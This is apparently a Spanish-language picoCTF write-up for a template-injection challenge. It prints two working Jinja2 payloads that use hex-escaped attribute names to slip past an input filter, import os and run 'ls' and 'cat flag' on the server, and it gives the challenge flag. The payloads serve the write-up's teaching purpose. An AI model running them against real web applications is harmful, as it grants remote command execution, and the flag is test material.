 ### Descripcion
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58579/)!

### Solucion
ejecutamos este comando que nos indica donde puede estar 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
![[Pasted image 20251008182724.png]]
despues ejecutamos esto
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
y eso nos da la llave
picoCTF{sst1_f1lt3r_byp4ss_a9824e27}

### Notas


### Referencias
